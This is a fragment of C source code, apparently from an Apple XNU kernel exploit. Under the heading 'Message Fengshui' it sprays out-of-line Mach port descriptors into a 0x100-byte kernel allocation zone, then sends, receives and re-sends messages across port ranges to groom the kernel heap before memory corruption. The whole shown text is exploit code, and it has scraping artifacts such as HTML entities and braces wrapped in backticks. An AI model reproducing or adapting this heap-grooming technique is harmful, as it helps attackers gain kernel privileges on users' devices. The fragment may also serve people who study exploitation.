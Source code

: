 ```
    for(int i = 0; i&lt;=16; i++)`{` // appropriate ipc-send size  
        send_msg.msg_ool_ports[i].address = use_ports;
        send_msg.msg_ool_ports[i].count = 32; // kalloc 0x100 (256)
        send_msg.msg_ool_ports[i].deallocate = 0x00;
        send_msg.msg_ool_ports[i].copy = MACH_MSG_PHYSICAL_COPY;
        send_msg.msg_ool_ports[i].disposition = MACH_MSG_TYPE_MAKE_SEND;
        send_msg.msg_ool_ports[i].type = MACH_MSG_OOL_PORTS_DESCRIPTOR;
    `}`
    // Part 3. Message Fengshui
    /* SEND MSG */
    for(current_port_num = 0; current_port_num &lt; USE_PORT_START; current_port_num++)`{`
        send_msg.msg_head.msgh_remote_port = ool_ports[current_port_num];
        kern_return_t send_result = mach_msg(&amp;send_msg.msg_head, MACH_SEND_MSG | MACH_MSG_OPTION_NONE, send_msg.msg_head.msgh_size, 0, MACH_PORT_NULL, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
        if(send_result != KERN_SUCCESS)`{`
            printf("[-] Error in OOL Fengshui sendnError : %sn", mach_error_string(send_result));
            exit(1);
        `}`
    `}`
    for(current_port_num = USE_PORT_END; current_port_num &lt; PORT_COUNT; current_port_num++)`{`
        send_msg.msg_head.msgh_remote_port = ool_ports[current_port_num];
        kern_return_t send_result = mach_msg(&amp;send_msg.msg_head, MACH_SEND_MSG | MACH_MSG_OPTION_NONE, send_msg.msg_head.msgh_size, 0, MACH_PORT_NULL, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
        if(send_result != KERN_SUCCESS)`{`
            printf("[-] Error in OOL Fengshui sendnError : %sn", mach_error_string(send_result));
            exit(1);
        `}`
    `}`
    for(current_port_num = USE_PORT_START; current_port_num &lt; USE_PORT_END; current_port_num++)`{`
        send_msg.msg_head.msgh_remote_port = ool_ports[current_port_num];
        kern_return_t send_result = mach_msg(&amp;send_msg.msg_head, MACH_SEND_MSG | MACH_MSG_OPTION_NONE, send_msg.msg_head.msgh_size, 0, MACH_PORT_NULL, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
        if(send_result != KERN_SUCCESS)`{`
            printf("[-] Error in OOL Fengshui sendnError : %sn", mach_error_string(send_result));
            exit(1);
        `}`
    `}`
    /* RECV MSG */
    for(current_port_num = USE_PORT_START; current_port_num &lt; USE_PORT_END; current_port_num += 4)`{`
        recv_msg.msg_head.msgh_local_port = ool_ports[current_port_num];
        kern_return_t recv_result = mach_msg(&amp;recv_msg.msg_head, MACH_RCV_MSG | MACH_MSG_OPTION_NONE, 0, sizeof(struct ool_recv_msg), ool_ports[current_port_num], MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
        if(recv_result != KERN_SUCCESS)`{`
            printf("[-] Error in OOL Fengshui recvnError : %sn", mach_error_string(recv_result));
            exit(1);
        `}`
    `}`
    /* RE-SEND MSG */
    for(current_port_num = USE_PORT_START; current_port_num &lt; USE_PORT_HALF; current_port_num += 4)`{`
        send_msg.msg_head.msgh_remote_port = ool_ports[current_port_num];
        kern_return_t send_result = mach_msg(&amp;send_msg.msg_head, MACH_SEND_MSG | MACH_MSG_OPTION_NONE, send_msg.msg_head.msgh_size, 0, MACH_PORT_NULL, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
        if(send_result != KERN_SUCCESS)`{`
            printf("[-] Error in OOL Fengshui re-sendnError : %sn", mach_error_string(send_result));
            exit(1);
        `}`
    `}`
    
```